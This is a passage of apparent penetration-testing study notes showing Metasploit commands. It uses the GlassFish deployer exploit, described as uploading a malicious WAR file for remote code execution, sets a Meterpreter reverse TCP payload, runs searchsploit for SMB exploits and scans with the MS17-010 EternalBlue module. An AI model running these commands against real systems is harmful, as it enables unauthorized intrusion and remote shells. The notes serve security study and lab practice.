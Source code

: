 ```bash
search Sun GlassFish
```

- Check if a module will work on the specific version of the service

```bash
use exploit/multi/http/glassfish_deployer
info

# Description:
#   This module logs in to a GlassFish Server (Open Source or
#   Commercial) using various methods (such as authentication bypass,
#   default credentials, or user-supplied login), and deploys a
#   malicious war file in order to get remote code execution. It has
#   been tested on Glassfish 2.x, 3.0, 4.0 and Sun Java System
#   Application Server 9.x. Newer GlassFish versions do not allow remote
#   access (Secure Admin) by default, but is required for exploitation.
```

```bash
set payload windows/meterpreter/reverse_tcp
options
# check the LHOST, LPORT, APP_RPORT, RPORT, PAYLOAD options
```

- Use [searchsploit](https://www.exploit-db.com/searchsploit) tool from the Kali terminal, instead of `search MSF command`, by displaying only the Metasploit exploit modules

```bash
searchsploit "Microsoft Windows SMB" | grep -e "Metasploit"
```

![](assets/image-20230413194606641.png)

- Back in `msfconsole`, check if the server is vulnerable to MS17-010

```bash
search eternalblue
use auxiliary/scanner/smb/smb_ms17_010
run
```

![](assets/image-20230413200558380.png)
